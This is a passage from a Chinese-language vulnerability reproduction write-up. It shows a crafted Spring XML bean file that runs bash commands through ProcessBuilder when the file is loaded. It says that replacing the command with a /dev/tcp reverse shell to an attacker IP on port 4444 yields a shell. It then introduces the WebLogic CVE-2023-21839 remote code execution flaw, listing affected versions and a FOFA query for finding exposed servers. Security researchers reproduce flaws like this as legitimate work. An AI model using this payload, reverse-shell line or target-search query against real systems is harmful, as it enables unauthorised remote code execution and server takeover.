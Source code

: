 **漏洞复现**  
  
构造xml文件  
```
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>

```  
  
访问.xml文件，会在tmp生成success文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7HkfId2mESp4HOrdtcDA4Rhx36kzwYPOTIlfwxI9d2vIdW5suGaBN7lkgs4yicKlHfKCHFt016nGw/640?wx_fmt=png&from=appmsg "")  
  
同理：修改 .xml文件中<![CDATA[bash-i >& /dev/tcp/攻击机IP/4444 0>&1]>即可反弹shell  
## 未授权远程代码执行漏洞(CVE-2023-21839)   
  
**漏洞原理**  
  
WebLogic 存在远程代码执行漏洞（CVE-2023-21839/CNVD-2023-04389），由于Weblogic  IIOP/T3协议存在缺陷，当IIOP/T3协议开启时，允许未经身份验证的攻击者通过IIOP/T3协议网络访问攻击存在安全风险的WebLogic Server，漏洞利用成功WebLogic Server可能被攻击者接管执行任意命令导致服务器沦陷或者造成严重的敏感数据泄露。  
  
**影响范围：**  
```
12.2.1.2.0
12.2.1.1.0
12.2.1.3.0
12.2.1.0.0
12.2.1.4.0
14.1.1.0.0
12.1.2.0.0
12.1.3.0.0
10.3.6.0

```  
  
**FOFA**  
```
app="BEA-WebLogic-Server" || app="Weblogic_interface_7001"

```  
  